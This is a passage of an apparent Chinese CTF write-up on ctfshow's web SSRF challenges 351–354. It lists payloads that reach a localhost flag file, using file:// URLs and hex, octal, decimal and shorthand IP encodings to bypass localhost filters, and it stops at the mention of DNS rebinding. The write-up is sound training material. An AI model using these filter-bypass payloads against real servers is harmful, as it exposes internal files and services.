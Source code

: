 ﻿---
title: ctfshow web入门(SSRF)
categories: ctfshow
---

基本跟 ctfhub 中的题目差不多

# 351(基础)
payload：
```
 url=http://127.0.0.1/flag.php
 url=file:///var/www/html/flag.php
```


---
# 352-353(ip 绕过)

>parse_url
本函数解析一个 URL 并返回一个关联数组，包含在 URL 中出现的各种组成部分。
```
十六进制
  url=http://0x7F.0.0.1/flag.php

八进制
  url=http://0177.0.0.1/flag.php

10 进制整数格式
  url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x
  url=http://0x7F000001/flag.php

还有一种特殊的省略模式
  127.0.0.1写成127.1

用CIDR绕过localhost
  url=http://127.127.127.127/flag.php

还有很多方式
  url=http://0/flag.php
  url=http://0.0.0.0/flag.php
```

---
# 354(DNS重绑定)
![](https://img-blog.csdnimg.cn/20210415234720962.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
上面的方法不行了
